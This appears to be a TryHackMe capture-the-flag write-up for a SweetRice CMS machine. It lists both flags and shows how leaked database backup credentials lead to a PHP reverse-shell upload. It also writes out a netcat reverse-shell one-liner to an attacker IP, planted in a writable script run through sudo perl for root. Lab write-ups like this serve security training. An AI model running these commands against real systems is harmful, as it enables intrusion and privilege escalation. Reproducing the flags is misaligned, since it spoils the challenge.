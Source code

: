 export ip=10.10.82.150
```
What is the user flag?
THM{63e5bce9271952aad1113b6f1ac28a07}
```
```
What is the root flag?
THM{6637f41d0177b6f37cb20d775124699f}
```
```
Nmap scan
# Nmap 7.80 scan initiated Tue Jun 23 21:35:57 2020 as: nmap -sC -sV -oN nmap.txt 10.10.210.14
Nmap scan report for 10.10.210.14
Host is up (0.080s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 23 21:36:10 2020 -- 1 IP address (1 host up) scanned in 12.96 seconds
```

found a misconfigured SweetRice CMS instance,
ran gobuster, found multiple dirs,
http://10.10.210.14/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
this is a sql db which contains the admin creds for the login portal @ (http://10.10.210.14/content/as/) manager:Password123

```
"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
```
```
Dashboard -> General -> System Settings
Database Setting

    Database : mysql
    Database Host : localhost
    Database Port : 3306
    Database Account : rice
    Database Password : randompass
    Database Name: website
```
At the CMS Dashboard -> Mediacenter
Uploaded standard reverse shell.php from pentest monkeys

(1)
/home/itguy
```
-rw-r--r-x  1 root  root    47 Nov 29  2019 backup.pl
```

cat /home/itguy/backup.pl

```
(2)
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
ls -al /etc/copy.sh
```
-rw-r--rwx 1 root root 77 Jun 23 23:10 /etc/copy.sh
```
change to /etc/copy.sh:
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.9.96 5554 >/tmp/f" > /etc/copy.sh
```

www-data@THM-Chal:/home/itguy$ sudo -l
```
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
and then with the modified file we run /etc/copy.sh file we run the /home/itguy/backup.pl to get root shell because ( look at the root ownership (1) and the content of it (2) ):
```
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl 
```
         
